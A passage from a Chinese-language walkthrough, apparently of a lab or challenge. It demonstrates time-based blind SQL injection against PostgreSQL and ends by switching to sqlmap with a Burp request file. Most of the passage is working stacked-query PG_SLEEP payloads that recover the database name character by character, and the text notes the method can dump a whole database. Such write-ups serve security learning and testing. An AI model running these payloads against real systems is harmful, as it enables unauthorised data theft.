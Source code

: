 ```sql
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) = 99) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
```

再构造第 2 个字符的 payload 组如下，得到第 2 个字符为 `_`：

```sql
// 猜测数据库名称的第 2 个字符 ASCII 码大于 64，页面发生延时，说明猜测正确，该字符范围为 (64, 127]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 64) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 2 个字符 ASCII 码大于 98，页面没有延时，说明猜测错误，该字符范围为 (64, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 98) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 2 个字符 ASCII 码小于 82，页面没有延时，说明猜测错误，该字符范围为 [82, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) < 82) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 2 个字符 ASCII 码大于 90，页面发生延时，说明猜测正确，该字符范围为 (90, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 90) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 2 个字符 ASCII 码大于 94，页面发生延时，说明猜测正确，该字符范围为 (94, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 94) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 2 个字符 ASCII 码大于 96，页面没有延时，说明猜测错误，该字符范围为 (94, 96]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 96) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--

// 猜测数据库名称的第 2 个字符 ASCII 码等于 95，页面发生延时，说明猜测正确，该字符为 ASCII(95) = '_'
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) = 95) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
```

由于前面已经得知数据库名称长度为 15 ，若要通过二分法全部猜解出来，最坏的情况要发起 15 * 7 = 105 次猜测请求，非常繁琐且耗时，所以这里我就不再逐一罗列 payload 了。按照前面的步骤逐个字符猜下去，最终得到的数据库名称为 `c_webserveur_40` 。

通过这个方法，完全可以实现拖库（即得到数据库中所有表名称、每个表的列、每一列的数据）。但是效率太低了，所以现在开始改用 sqlmap 完成这个过程。

------------

## 可选：设置 sqlmap 代理

由于前面已经通过 Burp Suite 构造了 HTTP 请求文件 `1552787207472.req`，就直接利用好了。

执行 sqlmap 命令（不能直接复制用，`-r` 参数需根据实际使用的而定）：

```shell
sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req
```

不过在天朝的同学很可能会出现如下连接失败的报错：
